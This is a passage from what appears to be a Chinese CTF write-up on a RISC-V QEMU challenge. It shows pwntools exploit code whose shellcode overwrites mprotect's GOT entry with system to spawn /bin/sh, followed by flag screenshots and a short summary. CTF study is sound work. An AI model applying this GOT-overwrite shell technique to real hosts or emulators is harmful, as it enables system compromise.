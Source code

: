 ```python
    ecall                      # Do syscalls: mprotect(qemu_read_only_memory,0x3c000,0x6)

    li s1,0x%x                 # s1 = mproctect@got
    li s2,0x%x                 # s2 = system
    sd s2,(s1)                 # * mproctect@got = system
    
    li a0, 0x70000             # a0 = 0x70000
    li a1, 0x1000              # a1 = 0x1000
    li a2, 0x6                 # a2 = read|write      : 0x6
    li a7, 226                 # mprotect = 226
    ecall                      # Do syscalls: mprotect(0x70000,0x1000,0x6) -> system("/bin/sh")
''' % (qemu_read_only_memory,mprotect,libc.symbols['system'])

io.sendline(gen_shellcode(shellcode3))
io.interactive()
```

flag1:
![image](https://xuanxuanblingbling.github.io/assets/pic/riscv/flag1.png)

flag2:
![image](https://xuanxuanblingbling.github.io/assets/pic/riscv/flag2.png)

## 总结

1. shellcode编写
2. shellcode交互